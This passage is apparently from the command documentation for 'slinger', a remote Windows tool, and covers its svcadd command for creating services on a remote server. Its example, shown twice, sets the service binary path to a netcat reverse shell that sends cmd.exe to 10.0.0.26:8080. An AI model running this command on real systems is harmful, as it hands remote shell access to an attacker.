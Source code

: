 - **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `svcadd`

**Description:** Create a new service on the remote server

**Help:**
```
usage: slinger serviceadd [-h] -n SERVICENAME -b BINARYPATH -d DISPLAYNAME -s {auto,demand,system}

Create a new service on the remote server

options:
  -h, --help            show this help message and exit
  -n SERVICENAME, --servicename SERVICENAME
                        Specify the name of the new service
  -b BINARYPATH, --binarypath BINARYPATH
                        Specify the binary path of the new service
  -d DISPLAYNAME, --displayname DISPLAYNAME
                        Specify the display name of the new service
  -s {auto,demand,system}, --starttype {auto,demand,system}
                        Specify the start type of the new service

Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"

```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes

- **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---
